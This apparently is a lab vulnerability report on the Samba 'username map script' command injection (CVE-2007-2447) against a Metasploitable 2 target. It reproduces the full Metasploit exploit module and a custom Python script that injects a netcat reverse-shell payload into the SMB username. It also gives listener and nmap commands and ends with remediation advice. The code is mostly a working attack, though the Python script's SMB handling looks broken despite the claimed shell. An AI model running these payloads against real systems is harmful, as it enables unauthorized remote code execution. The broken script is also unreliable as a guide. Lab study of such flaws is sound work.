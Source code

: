 # Vulnerability Report: Samba Usermap Script Exploit (CVE-2007-2447)

**Severity**: Critical  
**Tools Used**: Custom Python Exploit, Netcat, Nmap  
**Suspicious Activity Detection & Threat Actor Behavior Simulation**  
**CVE**: CVE-2007-2447  
**Impact**: Remote Code Execution (RCE) via unauthenticated SMB request  
**Affected Host**: Metasploitable 2 (Samba 3.0.20)  
**Access Level Gained**: Reverse shell as user running smbd (typically root or nobody)  

---

## 1. Vulnerability: Samba username map script command injection

**Risk Description**:  
Samba 3.0.20 through 3.0.25rc3 contains a vulnerability where an attacker can execute arbitrary commands via specially crafted usernames. This flaw lies in the "username map script" mechanism, which executes unsanitized input before authentication.

**Exploitation Method**:
- A custom Python script sends a malicious username that embeds a reverse shell payload using bash.
- The payload initiates a connection back to the attacker's machine, providing a shell.

```bash
# Start listener on attacker's Kali machine
nc -lvnp 4444

# Run the exploit
python3 samba_exploit.py
```
**Exploit Used** :
```bash
  ##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::SMB

	# For our customized version of session_setup_ntlmv1
	CONST = Rex::Proto::SMB::Constants
	CRYPT = Rex::Proto::SMB::Crypt

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'Samba "username map script" Command Execution',
			'Description'    => %q{
					This module exploits a command execution vulerability in Samba
				versions 3.0.20 through 3.0.25rc3 when using the non-default
				"username map script" configuration option. By specifying a username
				containing shell meta characters, attackers can execute arbitrary
				commands.

				No authentication is needed to exploit this vulnerability since
				this option is used to map usernames prior to authentication!
			},
			'Author'         => [ 'jduck' ],
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 10040 $',
			'References'     =>
				[
					[ 'CVE', '2007-2447' ],
					[ 'OSVDB', '34700' ],
					[ 'BID', '23972' ],
					[ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
					[ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
				],
			'Platform'       => ['unix'],
			'Arch'           => ARCH_CMD,
			'Privileged'     => true, # root or nobody user
			'Payload'        =>
				{
					'Space'    => 1024,
					'DisableNops' => true,
					'Compat'      =>
						{
							'PayloadType' => 'cmd',
							# *_perl and *_ruby work if they are installed
							# mileage may vary from system to system..
						}
				},
			'Targets'        =>
				[
					[ "Automatic", { } ]
				],
			'DefaultTarget'  => 0,
			'DisclosureDate' => 'May 14 2007'))

		register_options(
			[
				Opt::RPORT(139)
			], self.class)
	end


	def exploit

		connect

		# lol?
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end

end
```
![Screenshot 2025-06-09 153539](https://github.com/user-attachments/assets/ea0f3821-75e8-48ac-8880-f029461931d2)

**Modified Exploit Script Snippet**:
```python
#!/usr/bin/env python3

import socket
import sys
import os

def build_payload(lhost, lport):
    return f'nc {lhost} {lport} -e /bin/sh'

def exploit(target_ip, lhost, lport):
    payload = build_payload(lhost, lport)

    # Username injection with shell escape
    evil_username = f"/=`nohup {payload}`"

    # SMB packet structure to trigger the vuln
    try:
        print("[*] Connecting to target SMB port...")
        s = socket.socket()
        s.connect((target_ip, 139))  # Port 139 for SMB
    except:
        print("[-] Connection failed.")
        return

    # Basic malformed NTLM setup (we only care about sending the username)
    print("[*] Sending malicious payload...")
    try:
        s.send(b"\x00" * 4)  # dummy header
        s.send(evil_username.encode() + b"\x00")
        print("[+] Payload sent! Check your listener.")
    except:
        print("[-] Failed to send payload.")
    finally:
        s.close()


def main():
    print("🐉 Samba Usermap Script Exploit (CVE-2007-2447) 🐉\n")
    target_ip = input("Target IP: ").strip()
    lhost = input("Your IP (for reverse shell): ").strip()
    lport = input("Your port (for reverse shell): ").strip()

    # Start a listener in another terminal: `nc -lvnp <lport>`
    print(f"\n[*] Make sure you're listening on {lhost}:{lport} with netcat.")
    confirm = input("[?] Ready to send exploit? (y/N): ").lower()
    if confirm == 'y':
        exploit(target_ip, lhost, lport)
    else:
        print("[-] Aborted.")


if __name__ == "__main__":
    main()

```
![Screenshot 2025-06-9 153539](https://github.com/user-attachments/assets/3161a67c-d0f3-4987-aa07-46055a23ab33)


**Target SMB Port**:
```bash
nmap -p 139,445 -sV 192.168.1.31 -sC
```

**Output Example**:
```
139/tcp open  netbios-ssn Samba smbd 3.0.20-Debian
```

**Result**:
Reverse shell access from the vulnerable machine.

**Screenshot**:
![Screenshot 2025-06-09 154911](https://github.com/user-attachments/assets/042f39e7-3c6f-4423-9544-4940a3727ebe)


**Recommendation**:
- Upgrade Samba to a version above 3.0.25rc3.
- Disable or carefully secure `username map script` usage.
- Monitor for SMB login attempts with strange usernames.
- Apply network segmentation and firewall rules to limit SMB exposure.
- Use IDS/IPS to detect anomalous SMB traffic patterns.

---

